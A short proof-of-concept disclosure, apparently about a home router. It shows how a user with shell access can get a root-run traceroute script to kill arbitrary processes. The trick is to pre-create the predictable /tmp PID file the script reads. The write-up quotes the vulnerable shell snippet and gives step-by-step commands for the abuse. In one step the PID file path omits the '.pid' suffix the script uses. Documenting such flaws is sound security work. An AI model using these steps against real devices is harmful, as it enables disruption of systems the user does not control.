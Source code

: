 # Kill Processes as Root

This document describes how a user with access to the shell and to the
web interface is able to kill processes with root rights.

## Description

The web interface allows the execution of traceroute and ping. Both processes
are run by root. To block multiple executions of ping and traceroute a PID
file is created.

PID file for Traceroute: `/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute.pid`

If the user starts a new traceroute from the web the `/etc/ah/Traceroute.sh`
will be called. One of the first lines states:

```sh
[ -e /tmp/Traceroute_${obj}.pid ] && for pid in `cat /tmp/Traceroute_${obj}.pid`;
  do kill $pid;
done;
rm /tmp/Traceroute_${obj}.pid;
killall traceroute;
```

We now know all PID's in the file will be killed (as well as all other
traceroute processes) but the important part:
*This PID file doesn't exist on startup* so if you create it on your own you can
fill it with whatever PID's you want.

## Steps

 1. Get shell access (see [Escape from CLISH](/poc/escape_clish))
 2. `PIDFILE=/tmp/Traceroute_Device.IP.Diagnostics.TraceRoute`
 3. Choose which process you want to kill
   * List processes with `ps` (aux not needed ;)
   * Select processes to kill.
   * `PIDS="1234 2345"`
 4. `ls $PIDFILE`
    * If the file exists remove it. An existing PID file can be removed by
      either rebooting the rooter or by starting a traceroute and cancel it
      before it ends.
 5. Create file
   * `echo "$PIDS" >"$PIDFILE"`
 6. Start traceroute to random host from web interface
 7. ????
 8. PROFIT!!!
